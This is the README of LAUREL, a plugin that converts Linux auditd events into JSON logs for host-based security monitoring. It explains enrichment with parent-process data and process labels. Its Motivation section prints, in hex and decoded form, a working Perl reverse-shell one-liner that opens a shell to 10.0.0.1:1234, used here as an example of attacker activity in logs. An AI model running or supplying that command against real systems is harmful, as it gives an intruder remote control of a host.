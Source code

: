 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.5.0).

## Motivation

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. The event even contains useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring. However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing, transforming, enriching them, and writing them out as a separate JSON-based log. All information that was part of the original audit log is kept intact. The audit daemon is not replaced as the consumer of audit messages from the Linux kernel. Instead, _auditd's_ plugin interface is used, therefore _LAUREL.. can peacefully coexist with other consumers of audit events.

The chapter [_LAUREL_ installation instructions](INSTALL.md) contains instructions on how to set up and configure usage of the plugin.

Details about the log format are described in the [JSON-based log format](json-format.md) chapter.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) chapter for details.

## Audit rules

Currently, _LAUREL_ comes with no explicit recommendations on what to log. This is left as an exercise to the user. A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>.

_LAUREL_ will currently work best if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the process that caused the event and its parent:

``` json
"PPID": {
  "EVENT_ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ppid": 1532
},
"PID": {
  "EVENT_ID": "1643635028.826:327529",
}
```
`PID.EVENT_ID` or `PPID.EVENT_ID` refers to the audit event corresponding to the last `execve` syscall for the process or its parent, respectively.

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as labels to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out noise.

Consider the following audit rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
``` ini
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting a single event.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
